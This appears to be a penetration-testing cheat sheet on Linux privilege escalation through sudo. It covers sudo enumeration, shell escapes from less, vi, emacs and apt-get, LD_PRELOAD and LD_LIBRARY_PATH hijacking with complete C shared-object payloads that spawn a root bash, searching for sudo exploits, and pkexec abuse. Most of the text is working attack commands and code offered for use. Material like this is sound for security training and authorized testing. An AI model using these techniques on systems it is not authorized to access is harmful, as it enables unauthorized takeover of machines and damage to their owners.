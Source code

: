 # Sudo

* [Enumerate](#enumerate)
* [Limited Sudo](#limited-sudo)
* [LD_PRELOAD](#ld_preload)
* [LD_LIBRARY_PATH](#ld_library_path)
* [Sudo Exploits](#sudo-exploits)
* [pkexec](#pkexec)

## Enumerate

If you can read `/etc/sudoers`, then do so to figure out the sudo permissions of users on the machine.

Otherwise check sudo privileges (often requires password):
```bash
sudo -l
```

Execute as another user:
```bash
# impersonate another user with sudo
sudo -u <user> <command>
sudo -u someuser whoami

# shell as another user
sudo -u someuser /bin/bash
```

Root shell (one of these):
```bash
# gain root through sudo
sudo su -

# keep current environment when switching to root
sudo su

# alternative ways to elevate to root
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

## Limited Sudo

If your sudo privileges are restricted to some specific programs, then look for possible escape methods:

**GTFOBins** - https://gtfobins.github.io/

### Examples

In text editors like `less` or `more` you can often open a shell via the interactive command interface in the editor:
```bash
less <somefile>
!/bin/sh
# spawns root sh shell
```

Vi and Vim:
```bash
sudo vi
:set shell=/bin/sh
:shell
# spawns root sh shell
```

Emacs:
```bash
sudo emacs -Q -nw --eval '(term "/bin/sh")'
# spawns root sh shell
```

A lot of edtiors that normally aren't interactive will drop into an interactive mode if the window size is too small, so try lowering the windows size if you cannot access commands.

### apt-get

This is an example of using the above indirectly, which can be quite common in different applications. Look for ways to make a sudo'd application run a pager like less.

The default pager should be `less' for this to work. Also you need to find an updated apt package that has a changelog.

```bash
sudo apt-get changelog apt
...
!/bin/sh
# spawns root sh shell
```

## LD_PRELOAD

If you do sudo -l and see the following:
```bash
env_keep+=LD_PRELOAD
```

Then you can easily PrivEsc to root.

Create a shared object (.so) binary:

File `pe_preload.c`:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile:
```bash
gcc -fPIC -shared -nostartfiles -o /tmp/pe_preload.so pe_preload.c
```

Now if you run any program as sudo, you can pop a root shell:

```bash
sudo LD_PRELOAD=/tmp/pe_preload.so ping

# root shell pops
```


## LD_LIBRARY_PATH

Unlike LD_PRELOAD, this is not an unconditional winning condidtion. This will work if the program you can execute uses one or more shared libraries.

If you do sudo -l and see the following:
```bash
env_keep+=LD_LIBRARY_PATH
```

Then you might be able to gain root by replacing a shared object library (.so) used by one of the programs we can run as sudo.

Use the `ldd` command to enumerate the shared object libraries used by a binary.

```bash
ldd /usr/sbin/apache2

# output
    ...
    librt.so.1 => /lib/x86_64-linux-gnu/librt.so.1 (0x00007fa9e2b33000)
    libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007fa9e2af8000)
    libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fa9e2af3000)
    ...
```

If there are libs, then this should work. Pick one of them and create a shared library binary with the same name (here libcrypt.so.1).

pe_lib.c:

```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

Compile like the previous example:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC pe_lib.c
cd /tmp/
```

Then run the relevant command with the LD_LIBRARY_PATH parameter:

```bash
sudo LD_LIBRARY_PATH=. apache2

# rootshell spawns here
```

## Sudo Exploits

All of the above are basically ways to use sudo as intended by the creators (it's not a bug, it's a feature). But there were also a variety of vulnerabilities in sudo itself over the years.

Enumerate the sudo version with:

```bash
sudo -V
```

Search for exploits:
```bash
searchsploit sudo
searchsploit sudo <version_num_here>
```

There is also a dedicated toolset for identifying sudo vulnerabilities:

* "sudo killer" by TH3xACE - https://github.com/TH3xACE/SUDO_KILLER


## pkexec

Pkexec is similar to sudo, in that it lets you execute commands as another user (usually root) if you are part of a whitelisted group (usually 'admin' or similar).

If there is the pkexec SUID binary on the machine (check the SUID notes for search commands), then check the config:

```bash
cat /etc/polkit-1/localauthority.conf.d/*
```

If one of your groups is listed there then you can do:

```bash
pkexec "/bin/sh" #You will be prompted for your user password

# root shell pops here
```